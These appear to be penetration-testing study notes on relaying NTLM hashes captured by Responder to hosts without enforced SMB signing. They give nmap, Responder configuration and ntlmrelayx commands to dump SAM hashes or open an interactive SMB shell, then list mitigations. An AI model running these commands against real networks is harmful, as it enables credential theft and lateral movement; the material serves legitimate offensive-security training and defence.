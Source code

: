 Instead of cracking hashes gathered with responder, we can instead relay those hashes to specific machines and potentially gain access.

Requirments:
SMB signing must be disabled or not enforced on the target (workstations typically dont)

Relayed user credentials must be admin on machine for any real value

use nmap to see Message signing enabled but not required

`nmap --script=smb2-security-mode.nse -p445 <IP> -Pn`

edit /etc/responder/Responder.conf

Turn off HTTP | SMB 
[Responder Core]

; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On

### Dump SAM database
`ntlmrelayx.py -tf targets.txt -smb2support`

victim opens out ip address share

dumps SAM hashes

### Interactive
`ntlmrelayx.py -tf targets.txt -smb2support -i`

Victim opens attacker share IP

look for started interactive SMB client shell via TCP 127.0.0.1:11000

`nc 127.0.0.1 11000`

### Mitigation Strategies 

- Enable SMB Sioning on all devices
	- Pro: Completely stops the attack
	- Con: Can cause performance issues with file copies

- Disable NTLM authenication on the networks
	- Pro: Completely stops the attack
	- Con: If kerberos stops woking, Windows defaults back to NTLM

- Account tiering:
	- Pro: Limits domain admins to specific tasks (e.g only log onto servers with need for DA)
	- Con: Enforcing the poplicy may be difficult

- Local admin restriction:
	- Pro: Can prevent a lot of lateral movement
	- Con: Potential increase in the amount of service desk tickets
	